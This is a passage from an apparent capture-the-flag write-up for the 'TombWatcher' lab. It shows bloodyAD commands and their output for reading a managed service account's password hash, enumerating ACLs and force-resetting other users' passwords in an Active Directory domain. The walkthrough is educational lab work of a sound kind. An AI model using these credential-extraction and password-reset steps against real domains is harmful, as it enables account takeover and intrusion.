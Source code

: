 **Output**
```bash
distinguishedName: CN=ansible_dev,CN=Managed Service Accounts,DC=tombwatcher,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:[REDACTED]
msDS-ManagedPassword.B64ENCODED: IIwfpSnxGqOGf+d99xuIBTCl3yqtm6fvywv4pBqe5PN9jsYcLAWn3x1doYf9ZzjBXGB3XoRzPFNwtajDOG304xGmN2CJ4G+5QsLACGGVvu3ZoG4aosUdfpEGuWyYqSyKggtxHtssw1lWLbrZayfWqascdDtBvuaszTpJgmDnLykE6QP+BmmngEkfETLuZ+hH0pP896TujqasQXFyOBkqwVtvXe1Lx9szud4//XTPoejE0KBihHGhzmbQ8pGH9QR9zl21XsohXJA2dd9QAUwgGpCssBhbOPtAalPoaOYDlBE4wrFZNnrYpADsIeYVO/HmXVnGO1e/9XRjcSCEZaHvTw==
```

Success! We got credentials for the `ansible_dev$` account.

Using this account we are able to change `Sam`'s password as shown below.

**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p :$HASH get object --resolve-sd Sam
```

**Output**
```html
<SNIP>
nTSecurityDescriptor.ACL.0.Type: == ALLOWED_OBJECT == 
nTSecurityDescriptor.ACL.0.Trustee: ansible_dev$
nTSecurityDescriptor.ACL.0.Right: CONTROL_ACCESS
nTSecurityDescriptor.ACL.0.ObjectType: User-Force-Change-Password
</SNIP>
```

So let's change `Sam`'s password.

**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p :$HASH set password sam 'W1ldP@ss'
```

**Output**
```
[+] Password changed successfully!
```

`Sam` can set `John`'s password, as we can see here.

**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p $PASS get writable
```

**Output**
```bash
<SNIP>
distinguishedName: CN=john,CN=Users,DC=tombwatcher,DC=htb
OWNER: WRITE
</SNIP>
```

Another way we can enumerate this is by checking `John`'s `ACLs` manually instead of getting `Sam`'s `Writeable`
